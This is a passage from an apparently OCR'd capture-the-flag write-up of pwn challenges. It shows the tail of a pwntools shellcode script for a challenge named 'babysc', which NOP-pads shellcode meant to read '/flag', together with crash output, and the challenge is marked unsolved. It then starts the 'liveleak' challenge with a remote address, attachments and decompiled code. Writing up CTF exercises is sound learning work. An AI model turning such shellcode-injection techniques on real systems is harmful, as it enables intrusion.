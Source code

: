    ```py
       nop
       nop

   path:
       .string "/flag"
   """)

   conn.recvuntil(b"Enter 0x1000")
   shellcode = shellcode.ljust(0x1000, b"\x90")
   conn.send(shellcode)

   conn.interactive()
   ```

9. Run the script and get the following crash:

   ```sh
   [*] Switching to interactive mode

   [*] Got EOF while reading in interactive
   [DEBUG] Sent 0x5 bytes:
       b'exit\n'
   [*] Process './babysc' stopped with exit code -11 (SIGSEGV) (pid 23064)
   ```

**_UNSOLVED_**

## 4.0 liveleak

### 4.1 Description

No desc

`34.133.69.112 port 10007`

### 4.2 Category

PWN

### 4.3 Attachments

- chall
- Dockerfile
- ld-2.35.so
- libc.so.6

### 4.4 Solution

1. Based on Dockerfile, flag is located at `/flag`. The user running `chall` may not have proper permissions to read the file.
2. Open `chall` on IDA Pro:

   ```c
   void __noreturn alarm_handler()
   {
     puts("TIME OUT");
     exit(-1);
   }

   unsigned int initialize()
   {
     setvbuf(stdin, 0, 2, 0);
     setvbuf(stdout, 0, 2, 0);
     signal(14, (__sighandler_t)alarm_handler);
     return alarm(0x1Eu);
   }
   ```